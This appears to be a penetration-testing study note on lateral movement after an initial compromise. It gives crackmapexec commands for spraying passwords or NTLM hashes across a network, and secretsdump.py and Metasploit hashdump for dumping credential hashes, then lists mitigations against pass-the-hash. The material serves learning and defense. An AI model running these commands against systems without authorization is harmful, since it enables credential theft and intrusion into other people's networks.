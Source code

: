 # Introduction
In this we are going to learn what to do after gaining access to any one system from the network.


# Pass The Hash / Password Overview

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks


## Tools 

### crackmapexec

**Usage**:

`crackmapexec smb -u user_name -d domain_name -p pass_word <ip_address/CIDR>`

Local
`crackmapexec smb <ipaddress/CIDR> -u user_name -H ha_sh --local-auth`


![[CRACKMAPEXEChelp.png]]
 
 --> It  Passes the password through out the network and see if any machine sticks to that password
 
 (or) 
 
 You can use even hash by gathering the hash using msf hashdump.
 
 ![[hashdump msf.png]]
 
 And now you can pass the Hash instead of password
 
![[passing the hash in crackmapexec.png]]


<b > Installation</b>

 `apt install crackmapexec` (OR)
`python3 -m pip install crackmapexec`
## Dumping the hashes with the secretsdump.py



secretsdump.py is from impacket toolkit

*Usage*
`secretsdump.py domain_name/user_name:pass_word@ip_address`


## Mitigations for PassTheHash

- Limit account re-use:
	- Avoid re-using local Admin Password
	- Disable Guest and Administrators accounts
	- Limit who is a local administrator (least privilege)
-  Utilize strong passwords
	-  The Longer the better > 14 characters
	-  Avoid using common passwords
	-  I like long sentences
-  Privilege Access Management (PAM)
	-  Check out/in sensitive accounts when needed
	-  Automaically rotate the passwords on check out and check in 
	-  Limits pass attacks as hash/passwordis strong and constantly rotated
